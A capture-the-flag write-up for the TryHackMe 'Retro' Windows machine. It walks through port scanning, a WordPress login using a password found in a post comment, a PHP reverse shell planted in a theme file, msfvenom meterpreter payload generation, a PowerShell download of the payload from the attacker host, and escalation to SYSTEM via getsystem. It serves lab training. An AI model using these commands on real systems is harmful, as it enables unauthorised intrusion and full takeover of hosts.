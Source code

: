 ```yaml
---
layout: default
title: Retro
description: THM - Retro
---
```


## Enumeration
Nmap:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-23 20:18 EEST
Nmap scan report for 10.10.190.35
Host is up (0.067s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.00 seconds
```
Gobuster:
```
/retro
/retro/wp-content
/retro/wp-includes
/retro/wp-login.php
```
From the gobuster results, we figure that the website is running on wordpress.
The host OS is windows, so we may need to look into some powershell later on.

Let's take a look at the website. CTF creators like to hide things in plain sight.

We click on "Wade" and we have all his posts and comments.

Let's read through some posts.

Alright, found nothing, but there was a single comment.

![image](https://raw.githubusercontent.com/TudM99/tudm99.github.io/main/images/retro_01.png)

Let's try logging into wordpress with that word as a password, and I'll try a few usernames like wade, admin, etc.

And we're in!

Now we'll use the good ol' theme editor to get a reverse shell on the system.

I'll use Twenty Seventeen, with a php shell from Ivan Sincek, but you can go ahead and experiment. Replace the 404.php content with your shell, and launch it.


```
10.10.190.35/retro/wp-content/themes/twentyseventeen/404.php
```
```
nc -lvnp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.190.35 49854
SOCKET: Shell has connected! PID: 1864
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\retro\wp-content\themes\twentyseventeen>

```
Great! We have a shell. Let's look around for interesting files, and write permissions.

First of all, I'll pop into powershell since I find it easier to navigate with.
```
PS C:\Users> cd Wade
PS C:\Users\Wade> ls
ls : Access to the path 'C:\Users\Wade' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Wade:String) [Get-Ch 
   ildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell. 
   Commands.GetChildItemCommand
 
PS C:\Users\Wade> 

```
I tried accessing the "Wade" folder, but my access is denied. Same story with the admin folder.

This being a Windows machine, most likely we'll have write access to the public folders. Let's give it a go.

First, I'll generate an msfvenom payload for a reverse_tcp connection.
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.116.220 LPORT=9003 -f exe -o reverse.exe
msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set lhost 10.18.116.220; set lport 9003; exploit"
```
And now, with a python http server open, let's try to download and execute the "reverse.exe" file
```
PS C:\Users\Public> $url = "http://10.18.116.220:8000/reverse.exe"
PS C:\Users\Public> $outpath = "C:/Users/Public/reverse.exe"
PS C:\Users\Public> Invoke-WebRequest -Uri $url -OutFile $outpath
PS C:\Users\Public> ls


    Directory: C:\Users\Public


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-r---        12/8/2019  10:49 PM                Documents                     
d-r---        7/16/2016   6:23 AM                Downloads                     
d-r---        7/16/2016   6:23 AM                Music                         
d-r---        7/16/2016   6:23 AM                Pictures                      
d-r---        7/16/2016   6:23 AM                Videos                        
-a----        9/23/2023  10:42 AM           7168 reverse.exe                   


PS C:\Users\Public>

```

Good, we now have our payload on the machine. Let's try running it.
```
PS C:\Users\Public> .\reverse.exe

payload => windows/x64/meterpreter/reverse_tcp
lhost => 10.18.116.220
lport => 9003
[*] Started reverse TCP handler on 10.18.116.220:9003 
[*] Sending stage (200774 bytes) to 10.10.190.35
[*] Meterpreter session 1 opened (10.18.116.220:9003 -> 10.10.190.35:49874) at 2023-09-23 20:43:39 +0300

meterpreter > getuid
Server username: IIS APPPOOL\retro
meterpreter > 

```
Nice, we have a meterpreter shell.

## Privilege Escalation:

We'll use the default meterpreter "getsystem" command.
```
meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
We now have system privileges. We can read both flags and submit them!

Good hunting o7

[Try it out yourself!](https://tryhackme.com/room/retro)

[back](./)
